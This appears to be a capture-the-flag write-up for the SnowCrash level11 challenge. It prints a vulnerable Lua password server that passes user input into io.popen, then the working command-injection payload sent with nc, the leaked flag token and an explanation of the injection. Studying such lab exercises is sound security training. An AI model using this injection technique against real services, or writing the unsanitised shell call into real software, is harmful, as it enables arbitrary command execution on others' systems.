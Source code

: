 level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

Listens for incoming TCP connections on 127.0.0.1:5151.

This Lua script runs a server on port 5151 that prompts for a password,
hashes it, 
checks if the hash matches a pre-set value. 
If it matches, it congratulates the user; if not, it denies access.

There is a line that is easily exploitable

prog = io.popen("echo "..pass.." | sha1sum", "r")

it is easily exploitable because it constructs a shell command by directly embedding untrusted user input (pass) without any form of validation or sanitization. Here's why it's a security risk:

That is what we will do:

level11@SnowCrash:~$ echo '; getflag | wall' | nc localhost 5151
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 23:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s  

- This command exploits injection vulnerability
The use of the semicolon ; in the injected command '; getflag | wall' terminates the echo command that is part of the script's command string.

- After the echo command is terminated, the getflag command is executed.

- The pipe | operator takes the output of the getflag command and redirects it to the wall command, which broadcasts the message to all users on the system.

When the server script concatenates the user input (in this case, the payload '; getflag | wall') into the shell command and executes it with io.popen, it unintentionally allows the execution of arbitrary commands. If the server does not adequately sanitize the user input, it will run the getflag command and display its output to all users